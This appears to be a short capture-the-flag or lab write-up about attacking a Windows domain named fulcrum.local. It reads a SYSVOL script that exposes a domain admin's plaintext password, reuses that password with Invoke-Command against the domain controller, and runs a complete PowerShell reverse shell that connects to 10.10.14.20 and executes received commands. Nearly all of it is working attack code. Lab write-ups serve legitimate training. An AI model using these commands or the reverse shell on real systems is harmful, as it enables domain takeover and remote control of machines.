type \\dc.fulcrum.local\sysvol\fulcrum.local\scripts\a1a41e90-147b-44c9-97d7-c9abb5ec0e2a.ps1
```
## 923a - Domain Admin

- Using Invoke Command

```powershell
# Map network drive v1.0
$User = '923a'
$Pass = '@fulcrum_bf392748ef4e_$' | ConvertTo-SecureString -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ($User, $Pass)
New-PSDrive -Name '\\file.fulcrum.local\global\' -PSProvider FileSystem -Root '\\file.fulcrum.local\global\' -Persist -Credential $Cred
```
### Execute Command

```powershell
$pass = ConvertTo-SecureString '@fulcrum_bf392748ef4e_$' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('FULCRUM\923a', $pass)
Invoke-Command -ComputerName dc.fulcrum.local -Credential $cred -ScriptBlock { whoami }
```

- Reverse Shell

```powershell
Invoke-Command -ComputerName dc.fulcrum.local -Credential $cred -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient('10.10.14.20',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() }
```

